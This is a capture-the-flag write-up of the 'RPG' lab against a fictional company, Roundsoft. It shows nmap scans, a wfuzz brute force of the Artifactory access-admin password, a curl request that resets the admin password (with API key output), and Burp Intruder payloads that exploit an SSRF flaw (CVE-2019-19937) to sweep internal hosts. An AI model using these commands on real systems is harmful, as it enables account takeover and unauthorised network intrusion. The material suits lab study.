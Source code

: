 ```yaml
---
description: Machines by MinatoTW and Keramas
---
```


# RPG

## Description:

Roundsoft Inc. is a startup with a mission to develop the best video games the world has ever seen.

Safeguarding the company's intellectual property from corporate espionage and other external threats is their highest priority. Roundsoft has enlisted the services of your pentesting company, with a scope to determine if their perimeter can be breached, leading to compromise of their entire domain.

RGP is designed to test your creative thinking, enumeration & exploitation skills within a small Active Directory environment.

The goal is to identify the company’s assets, enumerate and move laterally within the network, and ultimately to compromise the domain while collecting several flags along the way.

Entry Point: 10.13.38.18 and 10.13.38.19

### Would you like to play a game?



Lets start with nmap enumeration.

```text
nmap -p- --min-rate 1000 -sCV -oA ./nmap/18 10.13.38.18
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: Roundsoft Inc.
	3000/tcp open  ppp?
	| fingerprint-strings: 
	|   GetRequest, HTTPOptions:
	.....

nmap -p- -sCV -oA ./nmap/19 10.13.38.19
	PORT     STATE SERVICE VERSION
	80/tcp   open  http    Microsoft IIS httpd 10.0
	| http-methods: 
	|_  Potentially risky methods: TRACE
	|_http-server-header: Microsoft-IIS/10.0
	|_http-title: IIS Windows Server
	8081/tcp open  http    Apache Tomcat 8.5.41
	| http-methods: 
	|_  Potentially risky methods: PUT DELETE
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We have two servers:   
An Ubuntu machine with SSH, Apache web on port 80 and [Rocket chat](https://rocket.chat/) on port 3000.  
A Windows machine with IIS on port 80 and Apache hosting [jFrog Artifactory](https://jfrog.com/artifactory/) on 8081.

Researching the named applications we'll find that jFrog has a password recovery mechanism using the [access-admin user](https://www.jfrog.com/confluence/display/RTF6X/Managing+Users#ManagingUsers-RecreatingtheDefaultAdminUser) for Artifactory versions above 6.8.  
When we access _10.13.38.19:8081_ we get redirected to _/artifactory/webapp/\#/login ._  
Reading the request headers we'll se that the Artifactory version is 6.13.1.

`Response Headers:  
Server: Artifactory/6.13.1  
X-Artifactory-Id: dcf029385834dbcc:5da73a7c:17c4a02fe85:-8000`

Next, we need to guess the password, looking at the API documentation, the [System Health Ping](https://www.jfrog.com/confluence/display/RTF6X/Artifactory+REST+API#ArtifactoryRESTAPI-SystemHealthPing) is a good candidate to fuzz. If we try a incorrect password we'll get an error response.

```text
curl -s -uaccess-admin:admin -XGET 'http://10.13.38.19:8081/access/a/api/v1/system/ping' -H 'Content-Type: application/json'
	{"errors":[{"code":"UNAUTHORIZED","detail":"Unauthorized","message":"HTTP 401 Unauthorized"}]}

wfuzz -c --basic 'access-admin:FUZZ' -w ./dict.txt -u 'http://10.13.38.19:8081/artifactory/api/v1/system/ping' -H 'Content-Type: application/json' --hc 401
	********************************************************
	* Wfuzz 3.1.0 - The Web Fuzzer                         *
	********************************************************

	Target: http://10.13.38.19:8081/artifactory/api/v1/system/ping
	Total requests: 100

	=====================================================================
	ID           Response   Lines    Word       Chars       Payload                                 
	=====================================================================

	000000013:   404        5 L      15 W       79 Ch       "Password12"                            

```

With the password we can change the admin password:

```text
curl -s -uaccess-admin:Password12 -XPATCH 'http://10.13.38.19:8081/artifactory/api/access/api/v1/users/admin' -H 'Content-Type: application/json' -d '{"password":"newAdminPassword"}'
	{
	  "username" : "admin",
	  "email" : "jfrog-admin@roundsoft.local",
	  "realm" : "internal",
	  "status" : "enabled",
	  "allowed_ips" : [ "*" ],
	  "created" : "2019-11-16T17:25:13.904-08:00",
	  "modified" : "2021-10-07T09:19:48.241-07:00",
	  "last_login_time" : "2020-06-14T23:53:36.039-07:00",
	  "last_login_ip" : "10.10.14.9",
	  "custom_data" : {
	    "public_key" : "JUHfDLxBPMe4YZbWLKdbams2ZTPq3rmG1zxgTFhrFQEh8fUTDWfNMxDka1ipqdZwGLZY6dhmWpZrYfefNiSQRMYGCidZs6YJEEwAgAJ4nEbyYE9KybxXWsSuHJ2VB1xpwsf1P",
	    "apiKey_shash" : "CVH6pG",
	    "apiKey" : "AKCp5e31BNLmPhjFrkk6oPKecoKcypYtxSY9QrMvDSHMWVgghVLFqfdpENgSfzQRqZsJmg1Pm",
	    "updatable_profile" : "true",
	    "private_key" : "JR5cohej8r9cKXYVgnxhLowKuQWaX4AjMQYxt2Up6AADGw6eaUkqfh3wRnPHTuC1cEeF24i1uwKQa4a8QH4G7QVLyGw2Ao5CAMSo451bu99myYXzbXhguUN9JnDwKVymHDws3JXHZ4iprQKzfdt79KJmNXCvJ6syqvBzoXNKxqCm8pYXhLBHDSGHu2AXbjmzGa8idkteMPXqvq9XqRNuiP8aUCPUQFUsSjic4LxRoQQtDBNjmjFGcbGLK7Gx9XotVBRyvB3pjcFxNJHA7KmTzy19qx1wa5YfEM2TmN48h8qxnpyqS9tZpQ84vr4VWXKnhok8XFPEaB5PbxHxhUTXcXnfumPYm1MDQtyp6zXQzxUB3PfGXMfF9LHvGwzwXH1mLZv3d2R2B5NwUU8RpQ3A2fXV6fvstkeyfqzprZmeqC2o9zHSc75KYQEhHqcoK8b9Yn1dcKbAdmevkAGQpjpfd8a8",
	    "artifactory_admin" : "true"
	  },
	  "password_expired" : false,
	  "password_last_modified" : 1633623588241,
	  "groups" : [ ]
	}
```

Once logged in, we can use the [System logs](http://10.13.38.19:8081/artifactory/webapp/#/admin/advanced/system_logs) and the [Security descriptor](http://10.13.38.19:8081/artifactory/webapp/#/admin/advanced/security_descriptor) to view connections from local machines with what looks like `192.168.125.0/24` IP range.  
Searching for Artifactory CVEs we get  [CVE-2019-19937](https://www.cvedetails.com/cve/CVE-2019-19937/), this leads to this [post](https://keramas.github.io/2020/04/03/jfrog-ssrf-vulnerability.html) by one of the creators of the endgame explaining a vulnerability in the _**Import Repository from Path**_ functionality of Artifactory.  
This allows to discover live host by they response time, once found, we can use a wordlist to try to recover a useful repository.

Using BURP Intruder we first fuzz the last IP range.  
`{"action":"repository","repository":"FightingFantasy_Beta","path":"\\192.168.125.§1§\repo","excludeMetadata":false,"verbose":false}`  
The responsive hosts are: `192.168.125.88` , `192.168.125.128` and `192.168.125.129`.  
Then using a wordlist with common repository names \(alpha, beta, development, buid...\) we can use Intruder again to discover repositories.

`{"action":"repository","repository":"FightingFantasy_Beta","path":"\\192.168.125.129\§repo§","excludeMetadata":false,"verbose":false}`




